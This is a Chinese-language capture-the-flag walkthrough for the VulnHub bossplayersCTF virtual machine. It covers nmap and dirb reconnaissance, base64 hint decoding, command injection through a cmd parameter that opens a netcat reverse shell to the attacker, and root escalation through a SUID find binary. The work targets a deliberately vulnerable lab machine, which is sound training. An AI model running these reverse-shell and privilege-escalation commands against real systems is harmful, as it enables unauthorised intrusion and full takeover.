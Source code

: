 # bossplayersCTF

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：bossplayers（IP：192.168.56.101）

下载：https://www.vulnhub.com/entry/bossplayersctf-1,375/

## Let's go

```
nmap -A 192.168.56.101
```

![](./img/bossplayers-01.png)

```
dirb http://192.168.56.101/
```

![](./img/bossplayers-02.png)

> **浏览后发现Base64编码,为什么判断是Base64呢?请看下面**

![](./img/bossplayers-03.png)![](/img/bossplayers-04.png)

```
echo 'bG9sIHRyeSBoYXJkZXIgYnJvCg==' | base64 -d
```

![](./img/bossplayers-05.png)

> **翻译为 "哈哈，再努力点，兄弟" , 看来方向错了**
>
> **我们回去首页，看看还有什么线索。功夫不负有心人**

![](./img/bossplayers-06.png)

```
echo 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' | base64 -d
echo 'ZDI5eWEybHVaMmx1Y0hKdlozSmxjM011Y0dod0NnPT0K' | base64 -d
echo 'd29ya2luZ2lucHJvZ3Jlc3MucGhwCg==' | base64 -d
```

![](./img/bossplayers-07.png)

> **感觉像在提示，我们试一下能不能使用命令**

![](./img/bossplayers-08.png)![](./img/bossplayers-09.png)

```
nc -lp 4444
http://192.168.56.101/workinginprogress.php?cmd=nc 192.168.56.102 4444 -e /bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
find / -perm -u=s -type f 2>/dev/null
```

![](./img/bossplayers-10.png)![](./img/bossplayers-11.png)

> **搜索具有SUID权限的文件,发现find命令具有此权限,我们使用find提权**

```
find / -name test -exec /bin/sh -p \;
cd /root
cat root.txt
echo 'Y29uZ3JhdHVsYXRpb25zCg==' | base64 -d
```

![](./img/bossplayers-12.png)
